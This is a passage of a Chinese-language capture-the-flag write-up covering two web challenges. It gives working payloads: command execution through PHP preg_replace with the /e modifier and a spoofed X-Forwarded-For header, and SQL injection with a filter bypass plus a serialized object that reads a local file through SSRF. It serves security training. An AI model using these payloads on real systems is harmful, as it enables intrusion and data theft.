    ```php
   if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

       echo "<br >Welcome My Admin ! <br >";

       $pattern = $_GET[pat];
       $replacement = $_GET[rep];
       $subject = $_GET[sub];

       if (isset($pattern) && isset($replacement) && isset($subject)) {
           preg_replace($pattern, $replacement, $subject);
       }else{
           die();
       }

   }





   ?>

   </body>

   </html>

   ```
3. 根据提示查看最后一部分开发人员测试代码：搜索 `subject`中匹配 `pattern`的部分，   以 `replacement`进行替换，传入的参数如果是php代码会先执行在匹配正则表达式替换
4. 添加X-Forwarded-For为127.0.0.1，传递参数，`pat=/(.*)/e&rep=system('cmd')&sub=aa`，打到执行任意命令的目的
   当传递的参数有空格时会报错，使用${IFS}空格变量即可
5. 查找，flag在s3chahahaDir/flag下，`pat=/(.*)/e&rep=system(%27cat${IFS}s3chahahaDir/flag/flag.php%27)&sub=aa`

cyberpeace{3b32ef39a4ff840f5ce00b92b70d47c0}

### fakebook

1. 查看robots.txt，发现文件index.php.bak，下载，目录爆破发现flag.php
2. 查看index.php页面，注册一个帐号后，点击admin，跳转到http://61.147.171.105:58327/view.php?no=1，把1改成2，报错，继续判断，
   页面有四个内容，order by 4,正常，order by 5，Unknown column '5' in 'order clause'，存在sql注入
3. no=-1 union select 1,2,3,4#，被过滤了，单独一个select不被过滤，单独一个union不被过滤，union select就会被过滤，如果只是简单匹配union，一个空格，select，多加几个空格61.147.171.105:58327/view.php?no=-1%20union%20%20%20%20%20select%201,2,3,4
   2出现在了屏幕中，其他位置则报反序列化错误
4. 先依据这个不需要但序列化的字段查询数据库结构，得到了一堆信息，没什么用，返回头来看index.php.bak文件，function get($url)会读取上传的url的页面内容，存在明显的ssrf漏洞，利用ssrf来读取目录爆破发现的flag.php即可, 可以先刷新一下环境重新注册，也可以直接在blog处写上序列化的字符串

   ```php
   $obj=new UserInfo("hehe",18,"file:///var/www/html/flag.php");
   //O:8:"UserInfo":3:{s:4:"name";s:4:"hehe";s:3:"age";i:18;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
   //61.147.171.105:58327/view.php?no=-1%20union%20%20%20%20%20select%201,2,3,%27O:8:"UserInfo":3:{s:4:"name";s:4:"hehe";s:3:"age";i:18;s:4:"blog";s:29:"file:///var/www/html/flag.php";}%27
   ```
